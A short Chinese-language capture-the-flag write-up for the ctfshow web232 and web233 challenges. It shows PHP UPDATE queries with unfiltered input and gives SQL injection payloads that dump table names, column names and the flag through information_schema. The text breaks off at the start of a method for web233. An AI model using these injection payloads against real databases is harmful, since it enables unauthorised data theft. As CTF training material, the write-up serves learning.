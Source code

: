 

#### web232

```
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = md5('{$password}') where username = '{$username}';";
      
返回逻辑

  //无过滤
```

同web231

```
password=1'),username=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where 1=1#&username=1

password=1'),username=(select group_concat(column_name) from information_schema.columns where table_name='flagaa') where 1=1#&username=1

password=1'),username=(select flagass from flagaa) where 1=1#&username=1
```



#### web233

```
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
返回逻辑

  //无过滤

```

这道题貌似waf掉了单引号，导致无法构造闭合，前面的方法用不了

##### 方法一

wp看到的骚操作
